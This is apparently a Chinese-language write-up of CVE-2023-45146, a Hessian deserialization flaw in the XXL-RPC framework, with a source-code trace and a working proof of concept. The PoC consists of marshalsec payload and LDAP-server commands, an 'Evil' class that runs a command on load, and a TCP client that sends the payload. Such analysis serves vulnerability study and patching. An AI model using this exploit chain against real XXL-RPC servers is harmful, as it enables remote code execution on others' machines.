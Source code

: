 ```yaml
---
title: "CVE-2023-45146"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:08+08:00
draft: false
---
```


XXL-RPC 框架存在反序列化漏洞，攻击者可通过恶意序列化对象远程执行任意代码，控制服
务器所在的机器

XXL-RPC 可以通过以下代码设置服务器和反序列化器

```java
XxlRpcProviderFactory providerFactory = new XxlRpcProviderFactory();
providerFactory.setServer(NettyServer.class);
providerFactory.setSerializer(HessianSerializer.class);
```


## NettyServer 使用 NettyDecoder 反序列化数据的关键代码 {#nettyserver-使用-nettydecoder-反序列化数据的关键代码}

1.  [xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/server/NettyServer.java:57](https://github.com/xuxueli/xxl-rpc/blob/eeaa1bd7fc8f2249de13f971dda4f6689d66f318/xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/server/NettyServer.java#L57)

<!--listend-->

```java
channel.pipeline()
        // --snip--
        .addLast(new NettyDecoder(XxlRpcRequest.class, xxlRpcProviderFactory.getSerializerInstance()))
```

1.  [xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/codec/NettyDecoder.java:15-45](https://github.com/xuxueli/xxl-rpc/blob/eeaa1bd7fc8f2249de13f971dda4f6689d66f318/xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/codec/NettyDecoder.java#L15-L45)

<!--listend-->

```java
public class NettyDecoder extends ByteToMessageDecoder {

    // --snip--

    @Override
    public final void decode(ChannelHandlerContext ctx, ByteBuf in, List<Object> out) throws Exception {
        // --snip--
        int dataLength = in.readInt();
        if (dataLength < 0) {
            ctx.close();
        }
        // --snip--
        byte[] data = new byte[dataLength];
        in.readBytes(data);

        Object obj = serializer.deserialize(data, genericClass);
        out.add(obj);
    }
}
```

1.  [xxl-rpc-core/src/main/java/com/xxl/rpc/core/serialize/impl/HessianSerializer.java:45](https://github.com/xuxueli/xxl-rpc/blob/eeaa1bd7fc8f2249de13f971dda4f6689d66f318/xxl-rpc-core/src/main/java/com/xxl/rpc/core/serialize/impl/HessianSerializer.java#L45)

<!--listend-->

```java
@Override
public <T> Object deserialize(byte[] bytes, Class<T> clazz) {
    ByteArrayInputStream is = new ByteArrayInputStream(bytes);
    Hessian2Input hi = new Hessian2Input(is);
    try {
        Object result = hi.readObject();
        return result;
    }
    // --snip--
}
```

可以看到调用了 Hessian2Input.readObject 来进行反序列化，而且 XXL-RPC 使用的反序
列化实现库并不安全，容易受到反序列化攻击


## RCE Proof of Concept {#rce-proof-of-concept}

想要命令执行，目标需要满足两个条件

1.  依赖中包含 Rome

<!--listend-->

```xml
<dependency>
  <groupId>com.rometools</groupId>
  <artifactId>rome</artifactId>
  <version>1.7.0</version>
</dependency>
```

1.  -Dcom.sun.jndi.ldap.object.trustURLCodebase=true

漏洞利用过程：

1.  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 Rome ldap://localhost:1389 &gt; payload.bin

2.  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer <http://localhost:8000/%5C#Evil> 1389

3.  通过 http 服务提供的恶意 class 文件，源码如下

<!--listend-->

```java
public class Evil {
    static {
        try {
            Runtime.getRuntime()
                    .exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (Exception e) {
        }
    }
}
```

1.  发送 TCP 请求到 Netty 服务器，触发 RCE

<!--listend-->

```java
import java.io.DataOutputStream;
import java.net.Socket;
import java.nio.file.Files;
import java.nio.file.Paths;


public class TcpClient {

    public static void main(String[] args) {
        try {
            byte[] DESERIALIZATION_PAYLOAD = Files.readAllBytes(Paths.get("payload.bin"));
            Socket socket = new Socket("localhost", 7080);
            DataOutputStream out = new DataOutputStream(socket.getOutputStream());
            out.writeInt(DESERIALIZATION_PAYLOAD.length);
            out.write(DESERIALIZATION_PAYLOAD);
            out.flush();
            socket.close();
        } catch (Exception ex) {
            System.err.println(ex);
        }
    }
}
```
